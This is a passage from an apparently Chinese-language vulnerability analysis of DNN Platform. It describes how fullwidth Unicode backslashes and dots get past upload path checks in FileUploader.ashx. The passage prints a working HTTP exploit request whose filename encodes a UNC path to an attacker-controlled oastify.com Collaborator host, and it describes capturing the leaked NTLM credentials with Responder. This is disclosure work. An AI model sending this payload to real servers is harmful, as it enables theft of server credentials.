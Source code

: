 - 同样属于“半角及全角形式”Unicode 区块  
  
- 用于需要统一字符宽度的亚洲排版场景  
  
- 视觉上比标准反斜杠更宽，但语义相同  
  
在利用此漏洞时，我们附加了调试器到 DNN，可以看到这个转换过程：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWKzMuepv3AcLbVcwnVd1eugmsBm8VGVUAic4INncQibPOiarYmFtibmcF4Q/640?wx_fmt=other&from=appmsg "")  
  
上图显示 Unicode 字符绕过了所有先前的安全边界。  
  
最终，我们到达了漏洞利用点，其中文件名包含我们需要的标准化反斜杠和点号：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWPngQiamLHZ6GpQHpKSWfs1LPSNzJdemHFHV7O1VzLEQ3lXOjaAz2DpQ/640?wx_fmt=other&from=appmsg "")  
  
这导致了预期的 Collaborator DNS 查询：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWxoJuRbeic8FiccjqBgziaWK1Y1vuT8tAbKMnCRF3jovvY4NVibJAUA7mpQ/640?wx_fmt=other&from=appmsg "")  
  
使用 Responder 服务器，NTLM 凭据可以像这样泄露：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/hoiaQy7WhTCMFAvuzxuD4EpIaFFr2UmEWrly152vZTRtoApDkUhgwDicZpVicgbzPcUiaRVOgoAAusGOFiasHCQo5Ow/640?wx_fmt=other&from=appmsg "")  
  
重现此问题所需的最终请求如下（注意：URL 解码文件名，并在发送请求前替换 Burp Collaborator 主机）：  

```
POST /Providers/HtmlEditorProviders/DNNConnect.CKE/Browser/FileUploader.ashx?PortalID=0&storageFolderID=1&overrideFiles=false HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXXXXXXXXXXXX
Content-Length: 198


------WebKitFormBoundaryXXXXXXXXXXXX
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;%EF%BC%BC%EF%BC%BCoqi3o3fv9cpyquhbd6h8bx19a0gs4nsc%EF%BC%8Eoastify%EF%BC%8Ecom%EF%BC%BC%EF%BC%BCc$%EF%BC%BC%EF%BC%BCan.jpg&#34;
Content-Type: image/jpeg


test
------WebKitFormBoundaryXXXXXXXXXXXX--
```

### 漏洞变体分析  
  
相同的攻击向量在 
```
DNN Platform/Providers/HtmlEditorProviders/DNNConnect.CKE/Browser/Browser.aspx.cs
```
